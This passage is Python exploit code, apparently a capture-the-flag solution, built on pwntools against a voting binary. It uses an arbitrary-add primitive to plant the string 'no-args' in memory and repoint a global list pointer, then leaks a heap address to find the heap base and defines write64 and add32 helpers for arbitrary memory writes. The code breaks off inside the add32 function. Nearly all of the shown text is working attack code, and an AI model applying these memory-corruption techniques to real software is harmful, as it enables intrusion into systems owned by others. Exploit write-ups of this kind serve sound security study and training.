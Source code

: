 ```python

add(emptyblock + 0, ord('n')) # writes to 0x602030
add(emptyblock + 1, ord('o')) # writes to 0x602031
add(emptyblock + 2, ord('-')) # ...
add(emptyblock + 3, ord('a'))
add(emptyblock + 4, ord('r'))
add(emptyblock + 5, ord('g'))
add(emptyblock + 6, ord('s'))

# change `list` from pointing at `problem_dummy` to last 8 bytes of the "special name"
add(aout.symbols["list"], -0x10 - 0x20 - 0x20) # go back 2.5 0x20 chunks
# list should point at memory block that starts with pointer to 0x602030
# since 0x602030 now contains "no-args" - no-args will be the first item in the list

def vote(name):
    wait_prompt()

    echo("2")
    echo("n")
    wait_prompt()
    echo(name)

# vote for no-args 32 times
for x in range(32):
    vote("no-args")

add(aout.symbols["list"], 0x10) # reset back to "dummy"
# The name now points to a pointer to a heap addr.

def leak_top():
    wait_prompt()
    echo("2")
    echo("y")
    _ = p.recvuntil("0  - ")
    bytes = "".join(map(chr, p.recvline(keepends=False)))
    print("".join(map(chr,_)) + bytes)

    wait_prompt()
    echo("")
    return u64(bytes.ljust(8, '\0'))

heap_addr = leak_top()
heap_base = heap_addr - 0x2b0
print("LEAKED HEAP ADDR: 0x%08X" % heap_addr)
print("HEAP BASE ADDR: 0x%08X" % heap_base)

#assumes we are starting with nulls
def write64(addr, value):
    bytes = p64(value)
    for i in range(8):
        b = bytes[i]
        if b:
            while (b > 0x7f):
                add(addr, 0x7f)
                b -= 0x7f
            add(addr, b)
        addr += 1

def add32(addr, value):
    sign = -1 if value < 0 else 1
    value = abs(value)
    bytes = p32(value)
    for i in range(4):
```